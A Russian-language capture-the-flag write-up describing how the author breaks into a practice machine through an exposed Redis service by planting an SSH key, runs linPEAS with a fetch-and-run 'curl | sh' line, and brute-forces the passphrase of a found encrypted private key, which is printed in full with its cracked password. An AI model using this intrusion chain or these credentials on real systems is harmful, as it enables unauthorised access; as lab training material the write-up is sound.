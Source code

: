 итак начнём


для начала просканируем порты:

![](./imgs/nmap.jpg)

так, мы выяснили что у нас открыты порты:

22 и 2222 - для доступа по ssh (нам пока не интересен , т.к у нас нет ни пароля, ни ключа)

80(http) и 443(https) (тоже не интересно (принадляжат какомуто сайту))

6379 - redis (а вот это уже интересно)


так мы узнали что здесь стоит БД-redis , при этом нам даже дали пароль к ней: surctfredis

а теперь нам нужно узнать как к ней подключиться:

![](imgs/redis_how_to_connect.jpg)

так теперь нам нужно установить redis-tools , в котором есть утилита redis-cli для подключения к БД redis:

![](imgs/redis_tools_install.jpg)

теперь можно попробовать подключиться:

![](imgs/rediscliconn.jpg)

ураа мы подключились, но что дальше?

дальше нам нужно найти RCE эксплойт (Remote Code Execution):

![](imgs/redisrceexplotation.jpg)

![](imgs/how_to_add_your_public_sshkey.jpg)

для начала сгенерируем свой SSH ключик

![](imgs/sshkeygen.jpg)

затем закинем его в файлик перед этим добавив в него пустые строки в начале и в конце, а также импортируем его в redis:

![](imgs/savepubkeyastxtwithnewlines_and_importthemtoredis.jpg)

есть, мы сохранили наш ключик в ключ(переменную) с названием ssh_key

теперь снова подключимся к редису и попробуем сменить нашу директорию на .ssh/ , у пользователя redis:

![](imgs/redissetconfigdirtosshfolderfailure.jpg)

не получилось из-за того что конфиг защещён

ладно тогда посмотрим где мы есть:

![](imgs/configsshNICE.jpg)

оо дак здесь по дефолту стоит папка с ключами , ничёсе.

тогда просто сохраним и проверим наш ключик: 

![](imgs/YeahWeDidIt.jpg)

вроде получилось , попробуем подключиться по ssh c нашим ключиком:

![](imgs/NiceSSH.jpg)

есть ураааа , мы подключены.

теперь нам нужно повысить свои привелегии.

есть такая утилита- linPEAS, она нужно чтобы посмотреть возможные уязвимости [ссылка](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS):

Вот команда для быстрого старта linPEAS 

>  curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

ну что запускаем и смотрим.

где то в серидине она выдала нам ключик от пользователя test:

![](imgs/sshbackupkeyfound.jpg)

сохраним его командой:

>echo "
>-----BEGIN RSA PRIVATE KEY-----
>Proc-Type: 4,ENCRYPTED
>DEK-Info: AES-128-CBC,6DE64BB52B779C56DC5B28F04988FB4C
>
>+eGzLWPQCs2RC0gu94QzDHLJEsck9qkm5LgqOAoHGjrShGtb80XODWHdzE+PADUL
>r4dUdfhV4+n+udALipoaYcwYDZnqUzBqSRjG9/4baisuoYK6PNki8kXm5JAbv5gG
>8bSwCKITctOHX57340RNsEdZPYjz0bDzRTd1Bqv5OALChtBxXrzxIG41Ud6ydpgQ
>kR4Xjq2l0j58sUOkDPkyTwBvy/gWenMcKYBDEPNTbaSZkstqJXBKGsSGhmLlUhEB
>em01BwMAVbZROr22XkbIjEiXwPNgSMKFaCI+mShB4/KiflogZWPqdE0MYOTiVPuK
>J1zAfYf7fi85Dj9XjEJicmE/6TkY1VdSj6n8XcIrxcghXt5Lbfi5LR7k5khh+P1d
>qBFhgAy3hGEJzx+zFWMXfbgxVs8gN9BuJtJDcAj6t6zJrJ+UMAPGwfq+u/csem/T
>AQPCJA2En/iRfzCYmqnFw9A7jCXzvUhyhKw6/idxZDQ8jf8hv0cVCeZPHcU2RlzB
>+30s0P81C2LOGNmyR5K/9qPBjTnTYoCReUtMbmzoFqApTCF20EzGWFAMwIaOYfBJ
>bnBf9m8QK1l0omDOhc2n4wO0+p+6lHlflUbURqJiuDkHgqVIluX+c5sCprzmAp8Z
>9DucdBhkDujj3NVN5VKN47v8TI9u0lGqbFJx3qLDhAFyizAJovSrC/VXAFm9wQc/
>13Z+xmQ1QKcYVfOsF50orVjhYQe1xrxEeCToagH+1aMFbqpVW35hA05gGWcLkr78
>tolI4IOaOhjbcvMmv+FyZXWQPhrfnj0EWpVy5mvK7CdyQKJqpUqCqqmgwJcG3Kbe
>bwsr/SInYdhHPHINcZDuq/ik55ekk6RMRAPcfpYuMOjKDKzHqzCoj1oFT3UrYaAR
>w37GGqknQi1DJDHTc+slsx7YFFPlUBA9/m9kxXg0DyiAHLiuv5pxeBjRXM52YPSh
>fa255QTwfiNCQeixUauxjQcIR2JRJnMjRpefKdt/xdGEBwNrKJdLP38olZNV+TNs
>lzzZkw72YhDfUfWxAMNW48JDK96V+uaHc0WrX5HadzIx/mlueBH2tG/PJNDKaXAf
>ri+v8N0MZhBlqeNweGhBUMOL87OiSd2zV2sWHsGF/V+ociC0PjBUR3XrNd6YKQM0
>4p1yDWfmkFqAmd/+Bf9t+wvGvEgkAl0JY1nuc69mSKmI+CRbBnG4lvcDq6h5sX66
>VwqUugTQtQUzHrnaGy46AK/a199F21wnSsLXWGBCFSIjgQ2rGDEMmwc09PYCuH1L
>xsTYTXpq0R1ZQkwK/eX3MSBTTcYvMLt13Rukz2YhLt6gFvw3bAVx9hYAeIV36/Fd
>/hdzSXQ86DbIr7v839gTX5CO0+OsMzukHfqg1SCvB3BFLu4SEmvBD5pmTy6LGIjt
>HZKz2Al0YUSrpV0rwEsQ2701S9VHnDPpTeeUsJFuLOq3792F308q7n6BJHby++my
>N/q2JNbjSmmlUcJPttlV8C9cyTCEXpM1lnz8HHyJPvUvfmX2frB1BdHPKKb5SrjZ
>Ujf6vp7pIjsgq9nEVCSIqymqde3mBrTEEB4qS0hTn/fSu27PcYeuiDh07XQ9FX6W
>-----END RSA PRIVATE KEY-----" > hellokey

![](imgs/keyssh.jpg)

поменяем ему права доступа на 600 и попробуем подключиться:

![](imgs/sshtrytoconnectfixpermissionsandpassword.jpg)

о нет он зашифрован , будем брутфорсить.

для начала распакуем словарь rockyou, в kali linux он по умолчанию находится в /usr/share/wordlists/rockyou.txt.gz :

![](imgs/unpackdefaultrockyouinkali.jpg)

теперь переделаем наш ключ в хэш для john:

![](imgs/ssh2john.jpg)

и теперь можно брутить:

![](imgs/bruteforce.jpg)

так теперь мы знаем пароль от ключа, попробуем подключиться по ssh с паролем - pokemon, и взять флаг в user.txt:

![](imgs/connect_ls_catusertxt_and_getflag.jpg)

Урра наш флаг:

>surctf_f1rst_p3ntest
